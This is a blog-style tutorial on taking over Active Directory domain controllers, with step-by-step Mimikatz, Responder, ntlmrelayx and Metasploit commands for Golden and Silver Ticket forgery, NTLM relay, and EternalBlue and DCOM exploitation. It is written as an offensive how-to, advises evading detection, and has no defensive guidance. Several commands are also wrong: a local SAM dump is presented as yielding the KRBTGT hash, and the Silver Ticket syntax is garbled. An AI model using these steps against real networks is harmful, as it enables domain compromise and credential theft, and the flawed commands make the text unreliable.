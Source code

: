 ```yaml
---
title: "Abusing Trusted Domain Controllers: From Privilege Escalation to Domain Domination"
published: 2025-04-20
description: "Exploiting misconfigurations and vulnerabilities in trusted Domain Controllers to escalate privileges and compromise the entire domain."
image: 'dc1.jpeg'
tags: []
category: 'Privilege Escalation'
draft: false
lang: 'ar-eng'
---
```


# Table of Contents

- [Abusing Trusted Domain Controller](#abusing-trusted-domain-controller)
  - [Key Concepts](#key-concepts)
  - [Methods](#methods)
    - [1. Golden Ticket Attack](#1-golden-ticket-attack)
    - [2. Silver Ticket Attack](#2-silver-ticket-attack)
    - [3. NTLM Relay Attack](#3-ntlm-relay-attack)
    - [4. Exploiting SMB and DCOM Vulnerabilities](#4-exploiting-smb-and-dcom-vulnerabilities)
  - [Important Notes](#important-notes)


# Abusing Trusted Domain Controller

A **Domain Controller (DC)** is the server responsible for managing Active Directory (AD) in a network. The **DC** stores and manages user credentials, permissions, and access control for all machines and users in the domain. **Abusing Trusted DC** refers to exploiting vulnerabilities or misconfigurations in the DC to escalate privileges, gain unauthorized access, or control the entire domain.

## Key Concepts

- **Active Directory (AD)**: A directory service that stores information about network resources (users, computers, etc.) and provides authentication and authorization.
- **Domain Admin / Enterprise Admin**: Users with the highest privileges in AD, who can control all aspects of the domain.
- **Kerberos**: A network authentication protocol used by AD to securely authenticate users and services.
- **NTLM**: A legacy authentication protocol used in Windows environments for authentication.
- **Trust Relationships**: DCs in a domain trust each other for authentication purposes. Exploiting this trust can allow attackers to escalate privileges.

## Methods

### 1. Golden Ticket Attack

- **Step 1: Obtain KRBTGT Hash**
  - The **KRBTGT account** is responsible for signing Kerberos tickets in Active Directory.
  - To create a Golden Ticket, you need to dump the **KRBTGT hash** from a compromised machine with high privileges (e.g., Domain Admin).
  - **Tool**: **Mimikatz**
  - **Command**: `mimikatz.exe "lsadump::sam" /inject`
    - This will dump the hashes from the local SAM (Security Accounts Manager) database.

- **Step 2: Generate the Golden Ticket**
  - Once you have the **KRBTGT hash**, you can generate a **Golden Ticket** that will allow you to authenticate as any user (typically a Domain Admin).
  - **Tool**: **Mimikatz**
  - **Command**:
  
  ```powershell
  mimikatz.exe "kerberos::golden /user:<username> /domain:<domain> /sid:<domain_sid> /rc4:<KRBTGT_hash>"
  ```
  
  - This command generates a Golden Ticket that can be used to impersonate any user in the domain, including Domain Admins.

- **Step 3: Pass the Golden Ticket**
  - Now that the Golden Ticket is generated, you can use it to authenticate to any service in the domain (e.g., SMB, RDP, etc.).
  - **Tool**: **Mimikatz**
  - **Command**:
  
  ```powershell
  mimikatz.exe "kerberos::ptt /ticket:<path_to_ticket_file>"
  ```

### 2. Silver Ticket Attack

- **Step 1: Obtain Service Account Hash**
  - To create a Silver Ticket, you need to compromise a service account hash (e.g., for SMB, SQL Server).
  - **Tool**: **Mimikatz**
  - **Command**: `mimikatz.exe "lsadump::sam" /inject`
    - This command will dump the hashes of service accounts.

- **Step 2: Generate the Silver Ticket**
  - Once you have the service account hash, you can generate a **Silver Ticket** for a specific service.
  - **Tool**: **Mimikatz**
  - **Command**:
  
  ```powershell
  mimikatz.exe "kerberos::golden /user:<username> /domain:<domain> /sid:<domain_sid> /rc4:<service_account_hash> /rc4:<target_service_name>"
  ```

- **Step 3: Pass the Silver Ticket**
  - Use the Silver Ticket to authenticate to the target service (e.g., SMB, RDP).
  - **Tool**: **Mimikatz**
  - **Command**:
  
  ```powershell
  mimikatz.exe "kerberos::ptt /ticket:<path_to_ticket_file>"
  ```

### 3. NTLM Relay Attack

- **Step 1: Set Up the NTLM Relay Attack**
  - **Tool**: **Responder** or **NTLMRelayX**
  - **Command**:
  
  ```bash
  python3 Responder.py -I <interface> -rd
  ```
  
  - This will start the **Responder** tool to capture NTLM authentication requests.

- **Step 2: Relay the NTLM Authentication**
  - When a victim machine tries to authenticate using NTLM, Responder will capture the request and relay it to a DC or another machine in the network.
  - **Tool**: **Responder** or **NTLMRelayX**
  - **Command**:
  
  ```bash
  ntlmrelayx.py -tf targets.txt -smb2support
  ```
  
  - This will relay the captured NTLM hash to a DC or other target machine.

- **Step 3: Gain Access to DC**
  - If successful, you will authenticate as the victim user, gaining access to the DC or other services in the domain.

### 4. Exploiting SMB and DCOM Vulnerabilities

- **Step 1: Exploit SMB Vulnerabilities (EternalBlue)**
  - **Tool**: **Metasploit** or **EternalBlue**
  - **Command**:
  
  ```bash
  msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue"
  ```
  
  - This will exploit the **EternalBlue** vulnerability in SMB to gain remote code execution on the DC.

- **Step 2: Exploit DCOM Vulnerabilities**
  - **Tool**: **Metasploit** or **DCOM Exploits**
  - **Command**:
  
  ```bash
  msfconsole -x "use exploit/windows/dcom/ms03_026_dcom"
  ```
  
  - This will exploit a vulnerability in **DCOM** to escalate privileges and potentially take control of the DC.

---

## Important Notes:

1. **KRBTGT Hash**: Always ensure you have access to a high-privileged account to dump the **KRBTGT hash**.
2. **Golden/Silver Tickets**: These tickets should be handled carefully and used only when necessary to avoid detection.
3. **NTLM Relay**: This attack is effective in environments where NTLM authentication is still used.
4. **Exploit SMB/DCOM**: Always check for unpatched systems that may be vulnerable to these types of attacks.
---

**`Happy Hacking Broo`**

---